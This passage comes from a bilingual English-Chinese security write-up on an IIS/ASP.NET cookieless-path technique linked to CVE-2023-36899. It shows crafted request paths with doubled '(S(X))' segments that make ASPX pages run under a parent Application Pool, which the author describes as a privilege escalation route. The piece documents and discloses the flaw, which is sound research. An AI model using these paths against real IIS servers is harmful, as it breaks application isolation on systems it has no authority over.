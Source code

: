 To illustrate: 举例说明：

1.  The root (`/`) of the website is running with the `DefaultAppPool` Application Pool  
    网站的根 （ `/` ） 正在与 `DefaultAppPool` 应用程序池一起运行
2.  The `/classic/` application uses the `.NET v4.5 Classic` Application Pool  
    应用程序使用 `/classic/` `.NET v4.5 Classic` 应用程序池
3.  The `/classic/nodotnet/` application uses the `NoManagedCodeClassic` Application Pool, which doesn’t support Managed Code.  
    `/classic/nodotnet/` 应用程序使用 `NoManagedCodeClassic` 不支持托管代码的应用程序池。

A C# file named `AppPoolPrint.aspx`, accessible across all the above applications, reveals the current Application Pool name:  
名为 `AppPoolPrint.aspx` 的 C# 文件可在上述所有应用程序中访问，该文件显示当前应用程序池名称：

```plain
<%@ Page Language="C#" %>
<%
string appPoolName = System.Environment.GetEnvironmentVariable("APP_POOL_ID");
Response.Write("App Pool Name: " + appPoolName);
%>
```

Based on the regular structure, accessing this page would result in:  
根据常规结构，访问此页面将导致：

```plain
/AppPoolPrint.aspx -> DefaultAppPool

/classic/AppPoolPrint.aspx -> .NET v4.5 Classic

/classic/nodotnet/AppPoolPrint.aspx -> Error: 404 Not Found (as Managed Code isn't supported)
```

However, by using the cookieless pattern twice, we can run this page using its parent Application Pool:  
但是，通过使用两次无 cookie 模式，我们可以使用其父应用程序池运行此页面：

```plain
/(S(X))/(S(X))/classic/AppPoolPrint.aspx -> DefaultAppPool

/(S(X))/(S(X))/classic/nodotnet/AppPoolPrint.aspx -> DefaultAppPool

/classic/(S(X))/(S(X))/nodotnet/AppPoolPrint.aspx -> .NET v4.5 Classic
```

This allows even the pages within `/classic/nodotnet/` (which shouldn’t execute Managed Code) to run the ASPX page using their parent’s Application Pools. This behavior can lead to privilege escalation on IIS.  
这甚至允许其中 `/classic/nodotnet/` 的页面（不应执行托管代码）使用其父级的应用程序池运行 ASPX 页面。此行为可能会导致 IIS 上的权限提升。

#### Update 10/08/2023 更新 10/08/2023

A new variant after the [CVE-2023-36899](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-36899) patch has been reported to Microsoft. This variant operates only on specific files, and I cannot discuss it in further detail at the moment.  
CVE-2023-36899 补丁后的新变种已报告给 Microsoft。此变体仅适用于特定文件，我目前无法进一步详细讨论它。
